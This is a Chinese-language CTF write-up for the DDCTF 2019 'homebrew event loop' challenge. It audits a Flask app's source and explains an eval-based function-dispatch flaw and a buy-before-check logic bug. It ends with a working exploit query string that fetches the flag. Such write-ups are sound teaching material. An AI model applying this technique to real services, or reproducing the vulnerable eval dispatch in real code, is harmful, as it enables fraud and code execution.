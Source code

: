 # \[DDCTF 2019]homebrew event loop

## \[DDCTF 2019]homebrew event loop

## 考点

* Python源码审计
* 购买功能中的逻辑漏洞

## wp

给了源码，下载审计

从路由入手，只有一个路由`/d5afe1f66147e857/`，`request.query_string`是获取`?`之后的所有内容，其格式为`action:ACTION;ARGS0#ARGS1#ARGS2`，通过给定格式的query\_string实现不同的功能。在初始状态对session中的值做一系列定义

```python
@app.route(url_prefix+'/')
def entry_point():
    querystring = urllib.unquote(request.query_string)
    request.event_queue = []
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100:
        querystring = 'action:index;False#False'
    if 'num_items' not in session:
        session['num_items'] = 0
        session['points'] = 3
        session['log'] = []
    request.prev_session = dict(session)
    trigger_event(query_string)
    return execute_event_loop()
```

然后把获取的query\_string传给trigger\_event这个函数，这个函数把query\_string按照先后顺序放在`request.event_queue`列表中

```python
def trigger_event(event):
    session['log'].append(event)
    if len(session['log']) > 5:
        session['log'] = session['log'][-5:]
    if type(event) == type([]):
        request.event_queue += event
    else:
        request.event_queue.append(event)
```

在路由的最后执行`execute_event_loop`函数，它会获取`request.event_queue`列表中的第一个元素，然后把剩下的元素重新赋值给`request.event_queue` ，并且限制了query\_string的组成，只能由字母数字和`_:;#`组成，然后截取`ACTION` 和`ARGS` 的值，对`ACTION` 进行拼接后用eval执行，用于获取`ACTION()` 这个函数，最后再把参数传入`ACTION()` 函数。

这里action用了拼接的方式，会导致可以执行任意函数，在action后面加上`#`就可以绕过对后缀的限制。那么这里肯定会问，为什么不直接执行FLAG()函数呢，因为FLAG()函数没有参数，这里在执行函数时是传入参数的，所以只能用get\_flag\_handler()函数获取flag

```python
# 简化之后的函数
def execute_event_loop():
    event = request.event_queue[0]
    request.event_queue = request.event_queue[1:]
    action = get_mid_str(event, ':', ';') # ACTION
    args = get_mid_str(event, action+';').split('#') # [ARGS0,ARGS1,ARGS2]
    event_handler = eval(
        action + ('_handler' if is_action else '_function'))
    ret_val = event_handler(args)
```

然后去看相关的功能，view\_handler()用于展示页面，index\_handler()用于展示和下载源码，get\_flag\_handler()用于获取flag，条件是num\_items大于等于5，这个在一开始定义为0个，然后是关键的buy\_handler()和consume\_point\_function()

```python
def buy_handler(args):
    num_items = int(args[0])
    if num_items <= 0:
        return 'invalid number({}) of diamonds to buy<br />'.format(args[0])
    session['num_items'] += num_items
    trigger_event(['func:consume_point;{}'.format(
        num_items), 'action:view;index'])


def consume_point_function(args):
    point_to_consume = int(args[0])
    if session['points'] < point_to_consume:
        raise RollBackException()
    session['points'] -= point_to_consume
```

在正常购买逻辑中的`request.event_queue`是由`['action:buy;1']`变成`['func:consume_point;1', 'action:view;index']` ，它是先在session中增加完num\_items再去consume\_point\_function()中验证的

可以通过构造`request.event_queue` 为`['action:buy;5','action:get_flag;']` ，这样在执行完buy\_handler之后，trigger\_event会把剩下的内容进行拼接`request.event_queue += event` ，变成`['action:get_flag;','func:consume_point;5', 'action:view;index']`，然后会执行get\_flag\_handler()，这时候的num\_items为5，所以可以获取flag

而构造`request.event_queue` 可以通过前面的任意函数执行，执行trigger\_event函数完成

最后的payload

```
?action:trigger_event%23;action:buy;5%23action:get_flag;%23
```

## 总结

1. 代码审计跟着功能搞明白执行顺序
2. 在购买的逻辑中，如果是先把商品加1再判断余额，可能存在逻辑漏洞
